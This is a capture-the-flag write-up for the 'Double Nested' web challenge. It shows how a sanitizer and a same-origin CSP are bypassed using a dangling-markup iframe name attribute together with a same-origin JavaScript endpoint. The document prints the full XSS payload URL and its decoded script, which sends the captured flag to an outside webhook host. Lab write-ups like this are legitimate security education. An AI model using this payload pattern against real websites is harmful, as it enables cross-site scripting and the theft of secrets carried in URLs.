


# Double Nested Brief Solution

## Overview

This challenge involves a minimal Flask application with only 2 routes and a Content Security Policy (CSP) that restricts script execution to same-origin sources.



## Application Analysis

### Routes
- **`/`** - Index route with XSS vulnerability, but input is filtered through a `sanitize` function before rendering
- **`/gen`** - Endpoint that returns user input with `Content-Type: application/javascript` (crucial for bypass)

### Content Security Policy
```
default-src 'self'; script-src 'self'; style-src 'self'; img-src 'none'; 
object-src 'none'; frame-src data:; manifest-src 'none';
```

**Key CSP Restrictions:**
- `script-src 'self'` - Only allows scripts from same origin (hence the `/gen` endpoint)
- `frame-src data:` - Allows iframes with data URIs

## Vulnerability Analysis

### Sanitization Bypass
The `sanitize` function filters:
- The word "script" (case-insensitive)
- The `&` character (preventing HTML entity encoding in iframe srcdoc)

### Challenge Constraints
- Flag is **not** stored in cookies
- Flag is appended to the top window URL (see bot code below)



## Exploitation Strategy

### The Core Issue
Since `iframe src` is restricted to `data://` URIs and we can't use HTML entities due to `&` filtering, we need an alternative approach.

### Solution: Markup Dangling Attack

The key insight is exploiting how browsers handle malformed HTML attributes. When we create:

```html
<iframe src='data:text/html;base64,' name=
```

The browser automatically continues parsing text as the `name` attribute value until it finds a closing `>` tag. This means when the flag is appended to the URL, it becomes part of the iframe's `name` attribute.

### Payload Construction

1. **Base64 Encoded Script**: Create a script that accesses `self.name` and exfiltrates it
2. **Iframe with Dangling Attribute**: Use malformed `name` attribute to capture the flag
3. **Data URI**: Embed the script via base64-encoded data URI

### Final Payload

```
https://double-nested.tjc.tf/?i=%3Ciframe%0A%20src=%27data:text/html%3Bbase64,PHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50amMudGYvZ2VuP3F1ZXJ5PXdpbmRvdy5vcGVuKCdodHRwczovL2doYWFhenkuZnJlZS5iZWVjZXB0b3IuY29tLz8nJTJic2VsZi5uYW1lICkiID48L3NjcmlwdD4%27%20name=flag
```

**Decoded Structure:**
```html
<iframe 
  src='data:text/html;base64,PHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50amMudGYvZ2VuP3F1ZXJ5PXdpbmRvdy5vcGVuKCdodHRwczovL2doYWFhenkuZnJlZS5iZWVjZXB0b3IuY29tLz8nJTJic2VsZi5uYW1lICkiID48L3NjcmlwdD4' 
  name=flag
```

**Base64 Decoded Script:**
```html
<script src="https://double-nested.tjc.tf/gen?query=window.open('https://ghaaazy.free.beeceptor.com/?'%2bself.name )"></script>
```

## Result


The flag is successfully exfiltrated through the webhook when the malformed iframe captures it in the `name` attribute and the embedded script accesses it via `self.name`.